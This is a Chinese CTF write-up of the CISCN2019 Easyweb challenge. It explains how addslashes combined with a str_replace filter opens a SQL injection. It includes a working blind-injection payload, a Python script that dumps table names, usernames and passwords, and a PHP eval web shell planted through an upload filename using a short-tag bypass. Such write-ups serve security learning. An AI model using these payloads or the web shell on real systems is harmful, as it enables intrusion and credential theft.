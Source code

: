 ```yaml
---

title: 日常练习35——二次注入前瞻关于addslashes()函数

date: 2021-05-18 22:03:31

tags: 练习

categories: test85

---
```


这道题算是给二次注入开头了，因为它涉及了二次注入中一个重要的函数——addslashes()函数。  

# [CISCN2019 总决赛 Day2 Web1]Easyweb

这是前年国赛总决赛的一题，重点考察了addslashes()函数的利用。  

打开题目，看到一个登陆界面：

[![](https://pic.imgdb.cn/item/60a86a5a6ae4f77d358e18f8.png)](https://pic.imgdb.cn/item/60a86a5a6ae4f77d358e18f8.png)  

测试后发现图片有两张不同的回显，大致就可以判断这道题和盲注有关了，接着我们可以在robots.txt里找到这道题目的提示（比赛中对于这些细节还是要检查的）   

[![](https://pic.imgdb.cn/item/60a9d26835c5199ba783de65.png)](https://pic.imgdb.cn/item/60a9d26835c5199ba783de65.png)  

可以看到提示我们有备份文件，我们可以下载得到image.php.bak文件，里面包含源码：  

	<﻿?php
	include "config.php";
	
	$id=isset($_GET["id"])?$_GET["id"]:"1";
	$path=isset($_GET["path"])?$_GET["path"]:"";
	
	$id=addslashes($id);
	$path=addslashes($path);
	
	$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	$path=str_replace(array("\\0","%00","\\'","'"),"",$path);
	
	$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
	$row=mysqli_fetch_array($result,MYSQLI_ASSOC);
	
	$path="./" . $row["path"];
	header("Content-Type: image/jpeg");
	readfile($path);  

源码审计一下，首先以get方式传参id和path，然后这两个参数要经过addslashes()函数，随后对这两个经过变化的参数进行正则匹配，替换掉一些字符。最终将这两个经过变换的变量拼接到sql语句中进行查询。  

这里最重要的就是这个addslashes()函数，我们需要知道他是干什么的：  

	addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。
	预定义字符是：
	单引号（’）
	双引号（"）
	反斜杠（\）
	NULL    

也就是说如果我们传入的字符串中有上面的预定义字符，那么经过这个函数后就会在这些字符前面加上转义字符"\"。   

比如下面的代码  

	<?php
    $id = "\\0";
    echo $id.'<br>';
	$id = addslashes($id);
	echo $id.'<br>';
	$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	echo $id;
	?>  

返回的字符分别是   

	\0
	\\0
	\  

也就是说\0在经过addslashes()函数后被加上\变为\\0，然后经过正则匹配\0被替换成空，最终也就变成了\。  

但是如果这个转义字符被拼接到sql语句中会发生什么呢？  

	select * from images where id='\' or path='{$path}'  

可以看到转义字符后面的单引号会被转义，原来的闭合单引号往后顺延，那么最终id的值为：\' or path=，也就是说原来关于path的查询不存在了，现在只剩下关于id的值的查询。  

但是我们仍然可以上传变量path来进行拼接，又因为这道题的查询回显页面不同，没有回显结果，所以我们可以使用盲注来查询。  

payload语句如下：  

	?id=\\0&path=or 1=if(length(database())>1,1,-1)#  

这样最终的sql查询语句实际上是：  

select * from images where id='**\' or path=** or 1=if(length(database())>1,1,-1)'#  
（加粗的字符是id的值）  

很明显的盲注，测试后发现确实会有不同的回显。  

接下来就是上脚本来得到用户名和密码了:  


	import requests


	url = 'http://ac4c87f5-3044-4096-b55a-0c647ae76c50.node3.buuoj.cn/image.php?id=\\0&path=or 1='
	flag = ''
	table_name = ''
	
	for i in range(1, 50):
    for c in range(127, 0, -1):
        payload = 'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database() ),%d,1))=%d,1,-1)%%23' % (i, c)
        #payload = 'if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273 ),%d,1))=%d,1,-1)%%23' % (i, c)
        #payload = 'if(ascii(substr((select group_concat(username) from users),%d,1))=%d,1,-1)%%23' % (i, c)
        #payload = 'if(ascii(substr((select group_concat(password) from users),%d,1))=%d,1,-1)%%23' % (i, c)
        r = requests.get(url+payload)

        if "JFIF" in r.text:
            table_name += chr(c)
            print(table_name)
            break

得到密码和用户名：  

[![](https://pic.imgdb.cn/item/60a9df3135c5199ba7efdfdb.png)](https://pic.imgdb.cn/item/60a9df3135c5199ba7efdfdb.png)

登录，发现是一个上传文件的页面：  

直接抓包上传一句话木马试试。  

[![](https://pic.imgdb.cn/item/60a9dfb335c5199ba7f53744.png)](https://pic.imgdb.cn/item/60a9dfb335c5199ba7f53744.png)  

告诉我们将文件名记录在日志中，那么我们尝试通过文件名写入一句话木马。  

修改Content-Disposition中参数filename的值为<?php @eval($_POST['cmd']) ?>  

[![](https://pic.imgdb.cn/item/60a9e02735c5199ba7f9dfdf.png)](https://pic.imgdb.cn/item/60a9e02735c5199ba7f9dfdf.png)  

又说不让上传php文件，应该是我们的文件名中有php字符，那么我们使用短标签绕过  

我们这样构造：  

	<?= @eval($_POST['cmd']); ?>  

成功上传，接下来就是蚁剑链接了：  

[![](https://pic.imgdb.cn/item/60a9e11d35c5199ba7032905.png)](https://pic.imgdb.cn/item/60a9e11d35c5199ba7032905.png)  

根目录得到flag。  

# 小结  

这道题重点就是addslashes()函数的操作，如何构造字符来利用addslashes()函数和下面的正则匹配来成功执行sql盲注，之后的二次注入也将和他有关，此外就是关于上传文件的文件名一句话木马和短标签绕过这两个小知识点。

